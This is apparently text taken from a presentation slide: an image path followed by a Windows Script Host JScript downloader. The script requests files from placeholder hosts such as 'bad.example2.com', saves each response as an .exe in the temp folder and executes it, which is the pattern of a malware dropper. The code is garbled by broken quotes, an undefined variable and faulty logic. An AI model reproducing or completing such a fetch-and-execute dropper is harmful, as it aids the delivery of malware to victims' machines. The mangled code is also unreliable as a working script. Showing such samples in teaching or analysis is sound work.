

var nasdh="99";
var sites="bad.example2.com badder.example.com".replace(nasdh,'').split(" ");

var WShell=WScript.CreateObject("WScript.Shell");

var fn=WShell.ExpandEnvironmentStrings("%TEMP%")+ “\\’’+’’107’’ ;
 var HTTP=WScript.CreateObject ("MSXML2.XMLHTTP");

var Stream=WScript.CreateObject ("ADODB.Stream");
var ld = 0;
for (var i=ld;i<sites.length;i++) {
HTTP.open("GET","http’’://"+sites[i]+"/counter/?id="+i+
"&rnd=711791"+n, false);

	HTTP.send();

	if (HTTP.status==(100)){
	Stream.open();

	Stream.saveToFile(fn+i+".exe",2);
	WShell.Run(fn+i+".exe",1,0); } }